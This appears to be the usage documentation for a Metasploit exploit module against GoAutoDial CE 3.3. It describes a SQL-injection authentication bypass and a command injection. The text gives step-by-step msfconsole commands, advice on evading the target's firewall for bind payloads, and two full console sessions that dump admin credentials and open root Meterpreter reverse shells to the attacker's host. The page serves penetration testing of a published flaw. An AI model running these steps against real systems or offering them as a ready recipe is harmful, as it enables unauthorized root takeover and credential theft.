 ## Description

This module exploits a SQL injection flaw and command injection flaw within GoAutoDial CE 3.3, which permits authentication bypass and a complete compromise of the underlying system with root privileges. This module also extracts the administrative users password from the underlying database. 

## Affected software

GoAutoDial 3.3 CE (32bit and 64bit) is available for download from goautodial.org. In order to download, register a free account then download the bootable ISOs. Both ISOs have been used for the dev of this. http://goautodial.org/attachments/download/3237/goautodial-32bit-ce-3.3-final.iso.html
Refer to: https://www.exploit-db.com/exploits/36807/

NOTE: GoAutoDial heavily restricts inbound traffic via iptables rules (and uses fail2ban, as well).  This can cause bind payloads to quietly fail.  For bind payloads, using ports which allow inbound connections but have no service running is ideal (ports 21 and 222 fall into this category for default GoAutoDial behavior).

## Verification Steps

- Start `msfconsole`
- Do `use exploit/linux/http/goautodial_3_rce_command_injection`
- Do `set RHOST <IP>`
- Do `set LHOST <IP>`
- Do `set LPORT <PORT>`
- Do `run`
- Wait for shell

## Scenarios

### Targeting 64-bit GoAutoDial

```
msf > use exploit/linux/http/goautodial_3_rce_command_injection
msf exploit(goautodial_3_rce_command_injection) > set rhost 172.16.191.150
rhost => 172.16.191.150
msf exploit(goautodial_3_rce_command_injection) > check
[+] 172.16.191.150:443 The target is vulnerable.
msf exploit(goautodial_3_rce_command_injection) > set lhost 172.16.191.181
lhost => 172.16.191.181
msf exploit(goautodial_3_rce_command_injection) > run

[*] Started reverse TCP handler on 172.16.191.181:4444 
[*] 172.16.191.150:443 - Trying SQL injection...
[+] 172.16.191.150:443 - Authentication Bypass (SQLi) was successful
[*] 172.16.191.150:443 - Dumping admin password...
[+] 172.16.191.150:443 - Found credentials: admin|goautodial|Admin|||Y
[*] 172.16.191.150:443 - Sending payload...
[*] Command Stager progress -  68.67% done (798/1162 bytes)
[*] Sending stage (2854264 bytes) to 172.16.191.150
[*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.150:52876) at 2017-07-02 11:08:02 -0400
[*] Command Stager progress - 100.00% done (1162/1162 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : go.goautodial.org
OS           : CentOS 5.11 (Linux 2.6.18-407.el5)
Architecture : x64
Meterpreter  : x64/linux
```

### Targeting 32-bit GoAutoDial
```
msf > use exploit/linux/http/goautodial_3_rce_command_injection
msf exploit(goautodial_3_rce_command_injection) > set lhost 10.0.2.4
lhost => 10.0.2.4
msf exploit(goautodial_3_rce_command_injection) > set rhost 10.0.2.44
rhost => 10.0.2.44
msf exploit(goautodial_3_rce_command_injection) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(goautodial_3_rce_command_injection) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
[*] 10.0.2.44:443 - Trying SQL injection...
[+] 10.0.2.44:443 - Authentication Bypass (SQLi) was successful
[*] 10.0.2.44:443 - Dumping admin password...
[+] 10.0.2.44:443 - Found credentials: admin|newpassword|Admin|||Y
[*] 10.0.2.44:443 - Sending payload...
[*] Command Stager progress -  78.66% done (796/1012 bytes)
[*] Sending stage (798104 bytes) to 10.0.2.44
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.44:49035) at 2017-07-07 15:49:48 -0500
[*] Command Stager progress - 100.00% done (1012/1012 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : go.goautodial.org
OS           : CentOS 5.10 (Linux 2.6.18-371.11.1.el5)
Architecture : i686
Meterpreter  : x86/linux
```
